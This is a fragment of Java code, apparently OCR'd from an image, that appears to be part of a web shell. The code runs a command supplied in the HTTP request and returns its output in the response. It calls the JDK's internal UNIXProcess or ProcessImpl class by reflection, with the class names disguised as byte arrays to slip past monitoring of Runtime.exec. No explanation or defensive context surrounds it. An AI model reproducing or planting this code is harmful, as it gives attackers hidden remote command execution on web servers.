```java
            try {
                PrintWriter writer = response.getWriter();
                String o = "";
                InputStream in = start(cmd);
                String result = inputStreamToString(in, "UTF-8");
                writer.write(result);
                writer.flush();
                writer.close();
            } catch (Exception var9) {
            }
        }
    }
    private static byte[] toCString(String var0) {
        if (var0 == null) {
            return null;
        } else {
            byte[] var1 = var0.getBytes();
            byte[] var2 = new byte[var1.length + 1];
            System.arraycopy(var1, 0, var2, 0, var1.length);
            var2[var2.length - 1] = 0;
            return var2;
        }
    }
    public InputStream start(String[] strs) throws Exception {
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});
        Class clazz = null;
        try {
            clazz = Class.forName(unixClass);
        } catch (ClassNotFoundException var30) {
            clazz = Class.forName(processClass);
        }
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        assert strs != null && strs.length > 0;

        byte[][] args = new byte[strs.length - 1][];
        int size = args.length;

        for(int i = 0; i < args.length; ++i) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int i = 0;
        byte[][] var10 = args;
        int var11 = args.length;

        for(int var12 = 0; var12 < var11; ++var12) {
            byte[] arg = var10[var12];
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};
        FileInputStream f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;
```